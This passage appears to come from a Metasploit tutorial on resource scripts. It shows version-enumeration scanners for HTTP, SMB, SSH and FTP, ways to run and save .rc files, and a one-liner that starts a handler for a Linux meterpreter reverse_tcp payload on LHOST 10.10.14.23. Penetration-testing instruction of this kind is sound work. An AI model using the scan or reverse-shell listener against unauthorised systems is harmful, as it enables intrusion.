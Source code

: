 ```bash
use auxiliary/scanner/http/http_version
set THREADS 50
services -p 80,443 -R
run

# SMB version enumeration
use auxiliary/scanner/smb/smb_version
set THREADS 50
services -p 445 -R
run

# SSH version enumeration
use auxiliary/scanner/ssh/ssh_version
set THREADS 50
services -p 22 -R
run

# FTP version enumeration
use auxiliary/scanner/ftp/ftp_version
set THREADS 50
services -p 21 -R
run

# Summaries
hosts
services
vulns
creds

# Stop logging
spool off
EOF
```

Run it:
```bash
msfconsole -q -r ~/msf-rc/baseline_scan.rc
```

### C. Using resource inside msfconsole
If you already have an interactive console, you can load a resource:
```text
msf6 > resource ~/msf-rc/baseline_scan.rc
```

### D. Generating a resource from your session (makerc)
After manually running a useful flow, capture it to an .rc file:
```text
msf6 > makerc ~/msf-rc/saved_flow.rc
```

### E. One-liner execution with -x
Execute a short sequence without crafting a file:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.23; set LPORT 5555; set ExitOnSession false; exploit -j -z; jobs -l; exit -y"
```
